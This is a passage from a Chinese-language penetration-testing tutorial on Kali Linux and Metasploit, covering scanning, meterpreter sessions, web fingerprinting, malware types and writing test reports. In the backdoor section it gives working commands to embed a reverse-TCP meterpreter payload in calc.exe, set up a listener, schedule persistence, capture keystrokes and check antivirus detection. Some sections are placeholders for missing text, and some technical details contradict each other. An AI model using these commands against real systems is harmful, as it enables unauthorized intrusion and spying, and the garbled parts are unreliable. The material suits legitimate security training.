## 使用 Metasploit

在后续章节中，我们将通过实践体验来使用 Metasploit 框架。我们假设运行 Metasploit 的 IP 地址为 `192.168.56.101` 或可以通过网络访问。

你可以点击发现（discovery）部分的“扫描”（Scan）按钮开始扫描主机。在“目标设置”（Target Settings）中，你可以通过输入单个主机（如 `192.168.1.100`）、一组主机（如 `192.168.1.100, 192.168.1.101, 192.168.1.110`）或一个主机范围（如 `192.168.1.100-200`）来指定目标，就像你对 NMAP 和 Nessus 执行的那样。你可以选择使用或不使用 CIDR 记法。

“高级目标设置”（Advanced Target Settings）中有一些重要的字段，你应该了解它们。让我们逐一查看这些字段。

- 排除地址（Excluded Addresses）：你在此字段中输入的 IP 地址将被排除在扫描之外。你不希望浪费不必要的时间去扫描不需要的目标。你可以在此字段中输入自己的 IP 地址或同事的 IP 地址以防止对其进行扫描。此外，可能存在某些规则要求你排除某些主机。当你指定了一个目标范围时，可以使用此字段从该范围内排除不需要的主机。
- 初始端口扫描（Initial Portscan）：如果你是第一次扫描某个主机，请勾选此框以便扫描端口。如果你返回扫描此主机，可以取消勾选此框以节省时间。
- 自定义 NMAP 参数（Custom NMAP Arguments）：如果你有想要指定的单个 NMAP 关，可以使用此选项。
- 额外的 TCP 端口（Additional TCP Ports）：默认的 Metasploit 扫描将扫描常用端口。如果渗透人员在侦察阶段发现目标系统在冷门端口上运行应用程序，可以在此处输入特定端口。
- 排除 TCP 端口（Exclude TCP Ports）：同样，你可能由于各种原因或规则要求从扫描中排除某些端口。你可以使用此选项列出你想要排除的端口。
- 自定义 TCP 端口范围（Custom TCP Port Range）：如果你想让 Metasploit 扫描自定义的 TCP 端口范围，可以使用此选项通过连字符来指定端口范围。
- 自定义 TCP 源端口（Custom TCP Source Port）：有时即使是詹姆斯·邦也会伪装。此选项可以指定不同的源端口，这有助于绕过目标系统防火墙上设置的某些访问列表和安全控制。

现在扫描目标机器。使用“目标地址”（Target Addresses）字段输入目标机器的 IP，继续点击“启动扫描”（Launch Scan）。完成扫描所需的时间取决于你电脑的速度以及你端和目标端的网络状况。Metasploit 是一个高效的工具，但后台有大量的进程在运行。

扫描完成后，你可以点击维护部分的“概述”（Overview）标签。你会看到发现（Discovery）部分提供了扫描的详细报告。在我们的案例中，它显示扫描了一个主机，拥有 30 或多个服务，并发现了一个漏洞。由于这是使用 Metasploit 单次扫描获得的，这是一个非常理想的结果。如果你对目标系统进行自定义扫描，可能会发现更多漏洞。我们甚至没有使用 Nexpose 来检查合规性。Metasploit 是一个有趣的工具，你应该继续尝试、享受并利用它。

在维护部分的“分析”（Analysis）标签中，你会看到所有扫描主机的列表以及扫描结果的简要。你可以通过点击主机 IP 获取有关特定主机的更多信息。下图显示了 Metasploit 在目标系统中识别出的服务的简要描述。有六部分，包括主机详情、服务、漏洞、备注、文件共享、模块和凭据。

| Project - default | Accou |
|---|---|
| Overview Analysis Sessions Campaigns Web Apps Modules | |
| Overview - Project default | |
| Discovery | Penetration |
| 0 个主机发现 | 0 个会话开启 |
| 0 个服务检测 | 0 个密码破解 |
| 0 个漏洞识别 | 0 个 SMB 哈希窃取 |
| Scan... Import... Nexpose... | Bruteforce... Exploit... |

- 服务：扫描结果显示了目标上运行的大量服务，以及在初始阶段对目标的预期。扩展服务部分提供的数据可以
软件及其版本以及其他敏感信息。某些服务会有超链接，因为在这些单独的服务上也有详细信息。
- 漏洞（Vulnerabilities）：目标系统上的漏洞按照它们被利用的顺序进行标识。此结果中列出的漏洞将与其各自的利用模块相关联。
- 文件共享（File Shares）：如果有可用的文件共享，将显示在此列表中。Linux 并没有与 Microsoft Windows 相同的共享文件结构。
- 备注（Notes）：这是一个额外部分，显示与扫描过程中发现的用于账户、枚举用户、安全设置、导出和共享相关的信息。该软件的“共享（Shares）”部分下有一个彩蛋。尽情探索并发现它吧。
- 凭据（Credentials）：此部分将显示在扫描期间发现的任何用户登录凭据。
- 模块（Modules）：此部分列出了漏洞利用模块之间的关联性。此外，它还为每个漏洞的标题提供了启动器。您可以点击标题超链接来与主机建立新会话并对其进一步利用。

通过点击超链接启动漏洞将为您提供漏洞的页面详情，这对于创建报告非常有用。随后它将填充所需的细节以继续执行漏洞。Metasploit 默认将启动带有 meterpreter shell 码的通用有效负载。

如果会话成功，您将看到消息“Success! 1 session has been created on the host”。这意味着目标系统已成功破解，扫描利用了该漏洞。您可以点击“会话（Sessions）”选项卡获取已建立会话的完整详情。您还可以看到可与目标系统交互的 shell 类型。您还可以看到您的访问级别，这由提供给您的账户类型来指示。您可以点击任何会话的超链接在目标系统上启动 Metpreter Shell。

## Meterpreter 会话管理

Rapid7 团队开发了一个非常有条性的系统。您可以使用 meterpreter shell 访问目标系统。然而，现在也可以通过 Metasploit 图形界面上的按钮执行许多操作。使用这些按钮可以更快速地管理漏洞利用。

您需要在时间和计划的执行之间保持平衡。由于我们的示例仅在目标系统上显示了一个漏洞，因此我们的示例中没有时间限制，但您需要记住，在真实环境中，时间是一个需要考虑的重要方面。错误操作可能会触发报警，而不采取操作将导致努力和会话的丢失。

如果您查看下图，将看到除了可操作按钮外，渗透测试员还会获得会话历史和后渗透模块选项卡。这些信息可以导出以便以后创建报告。

## `192.168.56.101` 上的会话 1

| 特性 | 说明 |
| :--- | :--- |
| 会话类型 | metpreter (payload:java/metpreter/reverse_tcp) |
| 信息 | root @metasploitable |
| 攻击模式 | exploit/multi/windows/ms17_010 |
| 可用操作 | |
| 收集系统数据 | 收集系统证据和敏感数据（截图、密码、系统信息） |


| 访问文件 | 浏览远程文件系统并上传、下载和删除文件 |
| 命令行 shell | 与目标上的远程 shell 交互（高级用户） |
| 创建代理枢纽 (Pivot) | 通过远程主机作为网关进行枢纽攻击 (TCP/UDP) |
| 创建 VPN 枢纽 | 通过远程主机进行流量枢纽 (以太网/IP) |
| 终止会话 | 关闭此会话。进一步的交互利用 |
| 会话历史 | 后渗透模块 |

## Meterpreter 会话内部的操作

- **收集系统数据 (Collect System Data)**：这将记录所有与系统相关的信息，如密码、截图等。
- **访问文件系统 (Access File System)**：您将能够访问目标系统的文件系统。此访问允许在目标系统上上传、下载、修改甚至删除文件。
- **命令行 shell (Command Shell)**：这将允许您使用目标上的命令行 shell 来与其他连接的系统进一步交互。
- **创建代理枢纽 (Create Proxy Pivot)**：使用此选项，可以使用远程目标系统作为网关。这意味着如果目标系统连接到网络上的其他系统，它将作为网关对这些系统启动扫描。
- **创建 VPN 枢纽 (Create VPN Pivot)**：此选项将帮助您使用远程目标系统进行流量枢纽。这与“创建代理枢纽”按钮没有太大。唯一的区别是通过此处的流量将通过 VPN 以加密格式传输。
- **终止会话 (Terminate Session)**：如所示，此按钮将终止与远程目标系统的会话。然而，确保您没有留下任何痕迹非常重要，这在将来可能会给您带来。

## 访问文件系统

让我们看看点击“可用操作”菜单中的“访问系统（Access system）”按钮会发生什么。当您点击它时，您将获得与被破解账户相同的目标文件系统访问权限。考虑到我们使用了 Java 漏洞获得 root 用户访问权限，我们对整个系统具有完全控制权。

## 命令行 shell

接下来，我们将看到从“可用操作”菜单中选择“命令行 shell（Command Shell）”按钮会发生什么。首先欢迎您的是 meterpreter shell，而不是与 Linux 相关的命令行工具。建议先在 meterpreter shell 中使用 `help` 命令，以便您在向生产环境发送命令之前熟悉它。您可以通过输入 `shell` 来获取与被黑系统操作系统相关的命令行工具。

## 利用 Web 服务器和 应用程序

任何形式的软件都是软件。无论使用什么技术或代码开发软件，无论其功能如何，它仍然会有漏洞。应用程序的情况也是如此。唯一的区别可能是 Web应用程序有更多的公共网关。仅在物理和操作系统层面进行安全是不够的，如果运行在上面的服务没有经过单独安全。

开放 Web 安全项目，简称 OWASP，是一个致力于改进软件安全的非营利组织。OWASP 每年发布一次互联网十大常见漏洞。

## 2019 年十大列表包含以下漏洞

1. 注入 (Injection)
2. 身份验证失效 (Broken Authentication)
3. 敏感数据泄露 (Sensitive data exposure)
4. XML 外部实体 (XXE)
5. 访问控制失效 (Broken Access control)
6. 安全配置错误 (Security configurations)
7. 跨站脚本 (XSS)
8. 不安全的序列化 (Insecure Deserialization)
9. 使用已知漏洞的组件 (Using Components with known vulnerabilities)
10. 日志和监控不足 (Insufficient logging and monitoring)

## Web应用程序测试

Kali Linux 中有很多可用工具。但只有当以适当的顺序使用它们时，才能充分发挥这些工具的威力。Web应用程序测试与渗透测试生命周期的前三个阶段（侦察、扫描和利用）类似。

### 步骤 1：手动审查 (Manual Review)

当你对 HTTP 进行端口扫描时，你可能会得到 HTTP 在 80 端口开放的结果，但这并不意味着 Web 应用程序也运行在 80 端口。你需要打开浏览器并验证是否真的有 Web 应用运行在如 80 或 443 等特定的默认端口上。浏览网站上的所有链接，因为它们有时会直接在你眼前的范围内提供有价值的信息。当你访问网站的某个特定页面时弹出登录对话框，尝试猜测十个密码，或者直接按 Escape 键，查看是否可以绕过登录提示。检查网站上每个页面的源代码，查看其是否有开发者留的备注或注释。这看起来可能是一个漫长而无聊的过程，但没有任何自动化工具可以标记网站上的每一个漏洞，手动检查总是有帮助。

## 第 2 步：指纹识别

仅凭手动检查可能不足以了解目标系统上运行的操作系统、服务器和 Web 应用。Kali Linux 利用指纹识别来查找有关这三个参数的信息。

Kali Linux 有一个名为 NetCat 的工具，它的作用是指纹识别，并可以作为入站连接的监听器。

你可以在 Kali Linux 终端中使用以下命令来使用 NetCat

```
nc {host}{port}
:example: nc 192.168.56.102 80
```

该命令将在 IP 为 192.168.56.102 的主机的 80 端口上建立连接，但在从源主机发送命令之前，它不会返回任何内容。NetCat 支持不同类型的指纹识别技术。让我们来看另一个例子。

```
nc 192.168.56.102 80
```

按下回车键

# HEAD / HTTP/1.0

连续两次回车键。

结果如下。

```
File Edit View Search Terminal Help
root@kali:~# nc 192.168.56.102 80
HEAD / HTTP/1.0
HTTP/1.1 200 OK
Date: Sat, 17 Aug 2013 23:16:50 GMT
Server: Apache/2.2.0 (Ubuntu) DAY/2
X-Powered-By: PHP/5.2.4-ubuntu5.10
Connection: close
Content-Type: text/html
root@kali:~# _
```

从结果可以看出，我们现在知道目标机器使用了 Apache 2.2 Web 服务器，并以 Linux Ubuntu 作为操作系统。它还安装了 5.2.4-ubuntu5.10 版本的 PHP。这些信息将帮助渗透测试人员缩小想要在目标系统上执行的攻击类型。

像 Netcat 一样，另一个名为 Telnet 的工具也可以用来查找系统信息。`telnet` 的命令如下。

`telnet {ipaddress} {port}`

:example: `telnet 192.168.56.102:80`

```
root@kali:~# telnet 192.168.56.102 80
Trying 192.168.56.102...
Connected to 192.168.56.102.
Escape character is '^'\nHEAD / HTTP/1.0
Host: 192.168.56.102

HTTP/1.1 200 OK
Date: Sat, 17 Aug 2013 23:14:37 GMT
Server: Apache/2.2.8 (Ubuntu) DAV/2
X-Powered-By: PHP/5.2.4-ubuntu5.10
Connection: close
Content-Type: text/html

Connection closed by foreign host.
root@kali:~# 
```

另一个可用于指纹识别的工具是 SSLScan。世界上大多数网站都安装了 SSL 证书以使用加密。对于渗透测试人员来说，知道网站使用了什么样的加密总是好的。SSLScan 工具查询主机使用的 SSL 版本，还会返回网站正在使用的活动证书。该工具在 Kali Linux 中的命令如下。

```
sslscan {ipaddress}:{port}\
example: sslscan 192.168.56.102:8080
```

## 第 3 步：扫描

为扫描过程设置自动化可以帮助你搜索漏洞并节省大量时间。有很多可用于 Web 服务器扫描的工具，在工具箱中准备多个应用程序是一个良好的习惯。目前没有任何单一应用程序能够扫描现今系统中存在的数百个漏洞。使用至少两个或三个应用程序扫描 Web 服务器总是好的，这样你就可以确定 Web 服务器可能存在的漏洞数量。

在本章中我们将简要介绍一些用于扫描 Web 服务器和 Web 应用的工具。

## Arachni


用于扫描 Web 应用的 Arachni 工具通过 Web 界面运行，类似于我们讨论过的 Nessus 工具。然而，与 Nessus 相比，Arachni 可以在同一时间对单个端口的在线主机进行单次扫描。如果主机在不同端口上运行了多个 Web 服务，你需要对每个端口单独运行扫描。例如，如果 URL `thiscomany.com` 在 80 端口上有一个 Web 托管服务，在 22 端口上有一个 SSH，你需要运行两次扫描来评估这两个端口。

你可以通过以下路径访问 Kali Linux 中的 Arachni Web 扫描器。

`Applications > Kali Linux > Web Applications > Web Vulnerability Scanners > arachnid_web`

终端将自动显示以下命令，随后启动 arachni Web 界面。

```
Terminal
File Edit View Search Terminal Help
[-] Starting the Arachni Dispatch server...
[+] Starting the Arachni web server...
[>] The web interface is at: http://127.0.0.1:4567
--- It may take a while to startup, try refreshing the page a couple of times.
[>] Hit Ctrl+C to shut everything down.
```

你可以在 URL 字段中输入目标系统主机或 URL 以对目标系统进行扫描。

在扫描进行期间，你会看到以下屏幕。



扫描完成后，Arachni 将提供扫描报告，如下所示。



## w3af Web 应用攻击审计框架

OWASP 开发者社区开发了 `w3af` 工具。它提供的报告有限，不如 `arachni` 那么详细。`w3af` 的优势在于它支持各种额外的扫描插件，并且可以定期更新。

你可以通过以下路径在 Kali Linux 中启动 `w3af`。

`Applications > Kali Linux > Web Applications >Web Vulnerability Scanners > w3af`

启动 `w3af` 应用时，会呈现工具的图形界面，默认情况下配置为空且未选择任何插件。你可以根据喜好的插件创建一个新配置，并从菜单栏中点击“另存为”。也有一些预定义的配置文件可以使用。你可以从 `OWASP_TOP10` 配置文件开始。即使选择了预定义配置，你也可以取消勾选不需要的插件。

## Webspoit

Webspoit 是另一个使用 ruby 开发的工具，看起来与 Metploit 相似，但它是专为扫描 Web 应用、Web 服务器以及社交工程而开发的。Webspoit 支持通过利用漏洞、负载甚至 meterpreter 与 Metploit 集成。该工具能够爬取 Web 服务器并攻击它们，导致拒绝服务。

以下将帮助你理解它们之间的关系以及维持访问的活动。

## 恶意软件

Malware 是恶意软件（malicious software）的缩写，是一个用于蠕虫、病毒、木马和键盘记录器的通用术语。在渗透测试中，当你需要向高管理层汇报某些情况时，可以使用恶意这一宽泛术语。然而，在与渗透测试团队合作时，具体说明你正在处理的恶意软件类型总是会好的。

## 后门

许多人将后门与特洛伊木马混淆。然而，后门只是植入在受损系统上的程序，供以后进入，这样你就不需要经过漏洞利用的过程。后门可能是木马的一个子集，但反之则不然。后门是嵌入了脚本以像木马一样运行的程序，但该程序本身没有供系统所有者使用的功能。

## 木马

特洛伊木马（Trojan Horse，简称 Trojan）是一种公开部署在所有者系统上供其使用的软件，但它具有运行脚本、创建后门、窃取信息等隐藏功能。在某些情况下，它还可以欺骗用户输入敏感信息，例如信用卡详情。

## 病毒

病毒可以被定义为可以感染系统上现有进程的恶意代码。病毒能够感染文件、系统内存、硬盘扇区和其他硬件。病毒进一步分为驻留型和非驻留型。

## 驻留

在系统运行期间进入 `RAM` 并在关机期间离开 `RAM` 空间的病毒被称为驻留病毒。这些病毒像水蛭一样附着在其他程序上，这些程序从 `RAM` 空间向内核发出函数调用。

## 非驻留

非驻留病毒在系统硬盘上寻找宿主机，感染文件，然后离开内存。

## 蠕虫

蠕虫模仿与病毒相同的破坏性。蠕虫和病毒的区别在于，蠕虫可以自我繁殖，不需要人类交互的输入。蠕虫会不断地从一个跳到另一个。在渗透测试过程中通常不使用蠕虫，因为它们非常强大且可能会失控。建议仅在无法访问任何网络（尤其是互联网）的实验室环境中对蠕虫进行实验。

## 键盘记录

正如名称所示，键盘记录器（keyloggers）捕捉用户输入的所有内容并进行记录。这些信息随后回传给渗透测试员或攻击者。键盘记录器是一项本质工具，渗透测试员经常使用。然而，某些交战规则（Rules of Engagement）可能会阻止渗透测试员使用键盘记录器，因为键盘记录器可能会记录员工的个人信息，如登录凭据或信用卡详情。键盘记录器记录的信息在渗透测试阶段应受到保护，并在之后立即销毁。

## 机器人网络

Bots 是机器人（robots）的缩写，通称为僵尸（zombies）。它们可以被部署在计算机网络上，通常由一个被称为机器人主（botmaster）的单人控制。

机器人网络可以包含一个已经被蠕虫、病毒和木马感染的计算机网络。机器人主有一台主计算机，命令从那里层层传递给部署在各种计算机上的机器人。攻击者通常使用机器人来导致拒绝服务（DoS）、分布式拒绝服务（DDoS）、暴力破解攻击和其他恶意活动。机器人网络的规模可以从仅包含两个系统的微型网络，到包含多个服务器的庞大网络。

## 托管

Colocation 简单意味着将你的服务放在异地地点。渗透测试员或攻击者并不总是想使用自己的个人电脑或笔记本电脑作为源系统。现在有许多公司允许你在他们的服务器上托管服务，每月从几美元到几千美元不等。然而，托管并不意味着你必须付费并将服务托管在远程服务器上。你也可以将它们托管在你设法获得访问权限的用户计算机上，并在用户不知情的情况下从那里运行你的活动。例如，垃圾邮件程序可以托管在任何已访问的服务器上。

## 远程通信

使用 VPN、远程桌面或不在同一网络的主机与服务器之间的通信被称为远程通信。对于渗透测试员来说，远程通信对于访问他们已利用并攻取的系统至关重要。

## 命令与控制

命令控制系统（Command and control，简称 C2）用于向受损系统发送命令。

## 后门

（注：此处原文为碎片化信息，根据上下文重构）

## 使用 Metasploit 创建后门

（注：此处原文为碎片化信息）

## 使用 Payload 创建可执行文件（未编码）

（注：此处原文为碎片化信息）

## 使用 Payload 创建可执行文件（未编码）

（注：此处原文为碎片化信息）

## 使用 Payload 创建可执行二进制文件（编码）

（注：此处原文包含语言/格式列表）

## 创建编码的特洛伊木马

在上一节中，我们创建了完全在后台运行而不与用户交互的后门。正如我们已经讨论过的，特洛伊木马应该是为用户提供某些功能并同时创建一个后门。在本例中，我们将使用 Windows XP 系统上的 `calc.exe` 文件，它会为用户启动计算器。你首先需要将 `calc.exe` 拷贝到外部介质。

注意：Windows 7 及更高版本的 `calc.exe` 程序不受我们示例中使用的木马的影响。

我们将使用以下命令在 `calc.exe` 二进制文件上创建特洛伊木马。该命令需要在 Kali Linux 的命令行提示符上单行输入。

```
msfpayload windows/meterpreter/reverse_tcp {YOUR_IP} {PORT} R | msfencode -e x86/countdown -c 2 -t raw | msfencode -x /media/{EXTERNAL_USB_DRIVE}/calc.exe -t -e x86/shikata_ga_nai -c 3 -k -o /root/backdoors/trojan-calc.exe
```

该命令的输出将在 `/root/backdoors/` 创建一个计算器木马 `trojan-calc.exe`，它现在已嵌入了木马。

### 设置 Metasploit 监听器

我们在上一节中创建了后门和木马，并且它们已部署在目标系统上。然而，它们会尝试调用源系统，因此渗透测试人员需要设置一个 Metasploit 监听器。

你可以在 Kali Linux 中使用以下命令来设置 Metasploit 监听器。请确保按照下方列出的顺序运行这些命令。


```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST {YOUR_IP}
set LPORT {PORT}
run
```

# 持久化后门

一个大学生给家里打电话查看父母或兄弟姐妹的情况。与此，木马或后门也遵循相同的流程。meterpreter 中有一个名为 `scheduleme` 的任务，可以实现这一目标。`scheduleme` 工具允许你根据时间要求（每天、每周、每 30 分钟）启动命令，或者使用用户操作（如用户登录系统）触发命令。

你可以使用以下命令语法进行 `scheduleme`。

```
scheduleme -c {"file/command"} -i -l
```

# 可检测性

许多杀毒系统已经拥有已知木马和后门的数据库。如果你想测试你的木马或后门的强度，可以将其上传到 http://www.virustotal.com/，在那里你可以了解哪些杀毒软件能够检测出你的木马或后门。例如，我们之前创建的 `trojan-calc.exe` 可以被 AVG 和 BitDefender 杀毒软件检测。

# 键盘记录器

在本节中，我们将讨论一些用于后门的 Kali Linux 工具。正如我们已经讨论过的，使用软件捕捉用户在键盘上输入的所有内容的过程被称为键盘记录。现在有许多第三方键盘记录器应用程序，可以安装并使用在目标系统上而不被发现。虽然事实如此，但大多数情况下使用键盘记录器需要对目标系统的物理访问权限，或者你可能需要物理地向目标系统连接一个监听设备。第三方应用程序也不会考虑可能阻止键盘记录器的入侵检测系统或杀毒软件的存在。Metasploit 通过 meterpreter shell 提供了一个名为 `keyscan` 的键盘记录器工具。如果渗透测试人员获得了目标系统的访问权限，他们可以使用以下 `keyscan` 命令设置键盘记录器。

确保保持命令的顺序。

```
keyscan_start
keyscan_dump
keyscan_dump
keyscan_stop
```

该命令的输出将显示键盘记录器捕获的所有按键。如果你只想查看特定应用程序的按键，可以将应用程序的 PID 传递给 `keyscan` 命令。你可以使用 `ps` 命令获取所有运行应用程序的 PID。

# 第7章：报告

在本章中，我们将了解渗透测试人员或道德黑客如何创建渗透测试报告，向组织的技术人员和高层管理展示发现和结果。我们将学习渗透测试报告的不同部分，定义交付报告的选项，并讨论保留测试报告数据的可能性。

在进行渗透测试时拥有技术知识是非常重要的，因为这些知识是从整个活动获取所需结果的关键。管理层通常授权渗透测试活动，并负责支付执行活动的团队费用。尽管如此，同样的管理层会在活动结束后给出详细报告，以便他们对需要注意的事采取行动。测试报告分为几个部分，我们将逐一介绍。

## 渗透测试报告的组成

### 执行摘要

执行摘要概述了渗透测试活动的情况，重点介绍了测试期间发生的事件。这包括如测试位置（本地或远程）、测试团队的详细信息、目标系统的安全级别和漏洞的详细说明。在这一部分使用图表和饼图等视觉化工具来显示在目标系统上执行的利用是很好的。这一部分的长度不应超过三段。虽然这是测试报告中的第一个部分，但它应该最后撰写。

## 参与程序

本节将描述参与的限制和流程。你将描述所进行的测试类型，例如是否进行了社交工程攻击，以及是否使用了拒绝服务（DoS）等。你需要在本节中解释渗透测试活动中使用的方法。将有关于攻击位置以及该位置如何与目标系统相关的详细信息。例如，渗透测试人员可能通过互联网从远程位置对 Web 应用程序进行测试，攻击也可能是无线的。

## 目标架构与组成

这是一个可选部分，包括目标系统的操作系统、开放端口、服务等信息。你还将定义目标基础设施中使用的硬件。如果你在渗透测试活动期间开发了网络拓图，可以将其插入此部分。

## 发现结果

本节列出了渗透测试期间发现的弱点、缺陷、漏洞和安全漏洞。有必要单独列出每个系统的漏洞，以便管理层修复这些缺陷。漏洞还可以与政府要求或监管要求的合规性联系起来，以便这些系统的所有者可以将成本追溯到源头。这将帮助系统所有者尽快安排所需的资金修复系统。例如，某些合规性要求的来源包括支付卡行业（PCI）、联邦信息安全管理法（FISMA）以及萨班斯-奥克斯利法（SOX）。

## 建议措施

针对渗透测试期间发现的所有漏洞和弱点，应采取的措施列在本节中。这可以是一个通用部分，也可以为“发现结果”部分列出的每个漏洞提供专门的部分。随后应该是关于如何修复漏洞的建议。没有必要描述修复漏洞所需的精确技术方案。你需要进行通用的描述，以便系统所有者及其技术人员能够理解并对系统进行修正。例如，如果发现系统密码太简单，相应的纠正建议就是在系统上设置强密码策略。

### 结论

结论部分应该用非常简短的陈述总结所有发现和建议措施。如果有需要特别关注的关键发现，可以在本部分进行重复和强调，表明系统所有者需要首先解决这些问题。

## 附录

此部分将涵盖支持完整报告的信息，但附录部分不应该是报告正文的一部分。该部分将包括有关渗透测试公司的信息、原始测试数据、术语表、定义以及参与渗透测试活动的个人测试人员的简历。

发现漏洞系统的工程师等人员，在决定未来哪些团队被邀请对其系统进行渗透测试时，将发挥重要作用。作为替代方案，你需要呈现那些不会伤害任何人感情且不指责任何小组的事实。简而言之，你只需要保持简单扼要，并讨论系统的缺陷以及如何修复它们。

有时，管理层并不会要求进行演示，他们可能只是希望你将测试报告交付给特定的个人或小组。在这种情况下，你需要确保报告准确、打印得当，并尽可能保持专业性。除了打印版外，还可能要求提供电子版。你需要记录报告的接收者，以便日后查阅。渗透测试报告中包含大量关键信息，如果报告落入错误的人之手中将是非常危险的。这就是为什么记录所有提供过测试报告的人员至关重要的原因。

## 测试报告与证据的存储

有些组织需要维护渗透测试报告的电子版或数字副本。在这种情况下，数字副本应该被加密并安全地存储。最基本的要求是对报告的数字副本进行加密，并使用强强密码对其进行保护。还应该注意渗透测试报告数字副本的位置不要共享位置，如果将其存储在离线介质上会更好。

此外，还有组织会要求你删除渗透测试报告。最好在法律顾问现场的情况下执行此操作，因为如果原始测试报告中漏掉了某些发现，该组织未来可能会对你追究责任。如果得到法律团队的许可，你可以擦除硬盘，确保没有留存备份，并确保文件在删除后无法再次检索。让两个人验证数字文档的删除也是一种良好的做法，这被称为“双人完整性”（`two-person integrity`）。

## 报告工具

Kali Linux 提供了多种报告工具。我们将介绍 Kali Linux 中两个广泛使用的工具：Dradis 和 Magic Tree。

### Dradis

Dradis 框架是一个开源的 Kali 工具，作为一个网络安全领域安全专家方面提供协作和报告的平台。该工具用 Ruby 语言开发，且独立于平台。Dradis 提供导出报告的选项，所有活动都可以记录在单份报告中。将报告导出为 PDF 或 DOC 文件格式目前仅支持专业版，社区版缺失此功能。

### Magic Tree

Magic Tree 是一种用于报告和数据管理的 Kali Linux 工具，与 Dradis 非常相似。它的设计使得数据整合、执行外部命令、查询和生成报告变得简单直接。Kali Linux 预装了该工具，位于“Reporting Tools”分类下。它使用树节点结构管理主机及其关联数据。

### Magic Tree vs. Dradis

Magic Tree 和 Dradis 的设计目标都是解决同一组问题，即数据整合和报告生成。Magic Tree 和 Dradis 都允许从用于渗透测试的各种工具产生的数据中导入。它们还允许手动添加数据并对这些数据生成报告。这两个工具都遵循树结构来存储数据。

### 结论

Kali Linux 是目前渗透测试人员可使用的最佳工具。正如我们在课程中所看到的，Kali Linux 内置工具工具帮助渗透测试人员贯穿整个渗透测试生命周期。渗透测试是每个重视客户及其数据的组织应该采用的活动，因为它有助于他们开发出更安全、更可靠的系统。

最后，确保渗透测试结果以客户要求的方式落入正确的人手中也非常重要。渗透测试的最终结果必须是一份指出系统中所有漏洞并包含修复这些漏洞的适当措施的报告。使用 Kali Linux 进行渗透测试将帮助你在渗透测试职业道路中不断晋升，你最终将帮助全球的组织使其系统和整个组织更加安全。这是任何黑客使用的最佳操作系统。

# 来源

RFC 文档（如 `RFC777` 和 `RFC792`）首次定义了 ICMP 协议，多年年来一直在修订。你可以在这里找到：

http://www.faqs.org/rfcs/rfc777.html

http://www.faqs.org/rfcs/rfc792.html

IPv6 定义在 `RFC4443` 文档中，可以在这里找到：

http://www.faqs.org/rfcs/rfc4443.html

第 1 章参考：


`https://kali.training/downloads/Kali-Linux-Revealed-1st-edition.pdf`

所有其他章节的参考：`http://index-of.es/Various-2/Hacking%20with%20Kali%20Practical%20Penetration%20Testing%20Techniques.pdf`
